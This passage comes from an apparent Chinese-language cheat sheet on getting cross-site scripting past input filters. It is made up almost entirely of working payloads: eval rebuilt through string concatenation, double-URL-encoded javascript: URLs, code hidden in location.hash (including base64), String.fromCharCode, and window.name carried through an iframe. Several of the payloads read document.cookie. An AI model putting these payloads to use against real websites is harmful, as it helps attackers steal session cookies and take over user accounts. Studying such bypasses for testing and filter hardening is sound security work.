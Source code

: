 ```txt
onseeked
onseeking
onstalled
onsuspend
ontimeupdate
onvolumechange
```
## 敏感字拼接的绕过
1. 利用数组方式来拼接
```txt
js里的对象成员方法也可以用数组的形式的表示
简单的说,比如eval()函数就可以用top对象的成员方法来表示
top['ev'+'al'](evalcode)
如果是过滤了函数名()的形式,使用下列方法
/1/[Symbol.replace]('1',alert)
如果是直接过滤了函数名,比如eval,我们可以这样来触发xss
x="onfocus=top["ev"%2b"al"](alert(1))//
使用字符串拼接的方式来构造出eval
```
2. 利用location的url解码特点
```txt
现代浏览器基本支持javascript:code 这种伪协议
而location在跳转的过程中又会自动解码,因此我们可以试图把敏感部分进行二次编码
存放到location部位。
比如我们通过这样的方式来调用eval
x="onfocus=location="javascript:%2565%2576%2561%256c(alert(1))"//
可以看到,成功的通过eval去调用了alert(1)
那你会问,如果括号也被过滤了呢? 继续编码就好了
构造如下的payload
x="onfocus=location="javascript:%2565%2576%2561%256c%2528alert%25281%2529%2529"//
```
3. 利用location.hash来存放
```txt
location.hash是浏览器中用于定位锚的字符串,它是不会向服务端发送的,因此也不会被过滤
所以我们可以构造如下payload来进行绕过
x="onfocus=outerHTML=location.hash//#<img/src="#" onerror=alert(document.cookie)>
这个payload存在url编码
x=" onmouseover=outerHTML=decodeURIComponent(location.hash)//#<img/src="#" onerror=alert(1)>
base64
http://t1m00n.tk/xsstest.php?x=" onmouseover=outerHTML=atob(location.hash.substr(1))//#PGltZy9zcmM9IiMiIG9uZXJyb3I9YWxlcnQoMSk+
```
4. String.fromCharcode() 可以从ascii码中解析出特定的字符串,比如这里过滤document.cookie
```txt
x="onfocus=eval(String.fromCharCode(97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,99,111,111,10
7,105,101,41))//
```

5. 利用window.name进行跨域传输
```txt
用在location.hash被过滤/长度不够,或者不能使用点号的情况
这里可以使用一个<iframe scr="payload" name="evilcode" />的方式,在window.name中存储代码
其实这种方法也被称为回旋镖
它能够把一个反射XSS升格为类似存储型XSS的效果
这里以绕过对eval的过滤为例
<iframe src="http://127.0.0.1/q.php?x=1%22onfocus=location=window.name//"
name="javascript:eval(alert(document.cookie))" width="100%" height="100%" />
```
